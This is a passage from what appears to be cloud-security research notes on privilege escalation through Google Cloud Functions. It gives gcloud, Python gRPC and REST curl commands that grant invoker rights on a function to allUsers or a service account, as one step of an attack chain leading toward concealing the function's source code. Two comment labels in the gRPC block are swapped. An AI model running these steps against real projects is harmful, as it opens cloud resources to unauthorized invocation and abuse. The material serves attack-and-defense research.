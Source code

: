 #### After Deploying the Function successfully, bind an IAM Policy to the Cloud Function so principals can Invoke it

Command to set an IAM Policy Binding to the Cloud Function via [gCloud](
https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#setting-iam-policy-binding-to-the-cloud-function-via-gcloud)

```powershell

# member:allUsers
gcloud functions add-iam-policy-binding <function-name> --region=<region> --member=allUsers --role=roles/cloudfunctions.invoker

# member:serviceAccount
gcloud functions add-iam-policy-binding <function-name> --region=<region> --member="serviceAccount:<service_account>" --role="roles/cloudfunctions.invoker"

```

Command to set an IAM Policy Binding to the Cloud Function via [Cloud Function API (gRPC)](
https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#setting-iam-policy-binding-to-the-cloud-function-via-cloud-function-api-grpc)

```powershell

# member:allUsers
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function> --setiambinding <principal>

# member:serviceAccount
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function> --setiambinding allUsers
```

Command to set an IAM Policy Binding to the Cloud Function via [Cloud Function API (REST)](
https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#setting-iam-policy-binding-to-the-cloud-function-via-cloud-function-api-rest)

```powershell

# member:allUsers
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"policy\":{\"bindings\":[{\"role\":\"roles/cloudfunctions.invoker\",\"members\":[\"allUsers\"]}],\"version\":3}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions/<function-name>:setIamPolicy

# member:serviceAccount
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"policy\":{\"bindings\":[{\"role\":\"roles/cloudfunctions.invoker\",\"members\":[\"serviceAccount:<service-account>\"]}],\"version\":3}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions/<function-name>:setIamPolicy
```
We can move into Concealing the Source Code. But to do that we'd require certain permissions to be granted. 
